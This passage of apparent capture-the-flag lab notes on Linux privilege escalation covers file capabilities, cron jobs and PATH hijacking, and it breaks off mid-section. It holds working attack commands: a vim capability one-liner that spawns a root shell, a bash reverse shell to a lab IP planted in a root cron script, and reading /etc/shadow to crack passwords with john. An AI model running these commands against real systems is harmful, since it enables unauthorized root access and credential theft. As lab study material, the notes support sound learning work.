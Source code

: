 
We can use the getcap tool to list enabled capabilities. When run as an unprivileged user, getcap -r / will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.



getcap -r / 2>/dev/null
`vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`
There is a flag4.txt in /home/ubuntu



# Privilege Escalation: Cron Jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under /etc/crontab

Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level:

- System administrators need to run a script at regular intervals.
- They create a cron job to do this
- After a while, the script becomes useless, and they delete it
- They do not clean the relevant cron job

***

1. cat /etc/crontab - 4 jobs
2. nano backup.sh ==> bash -i >& /dev/tcp/10.8.89.154/1234 0>&1
3. chmod +x backup.sh ==> got root
4. flag5.txt is in /home/ubuntu
5. cat /etc/shadow -> to john -> got password

# Privilege Escalation: PATH

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).

A simple search for writable folders can done using the `find / -writable 2>/dev/null` command. The output of this command can be cleaned using a simple cut and sort sequence.

An alternative could be the command below.
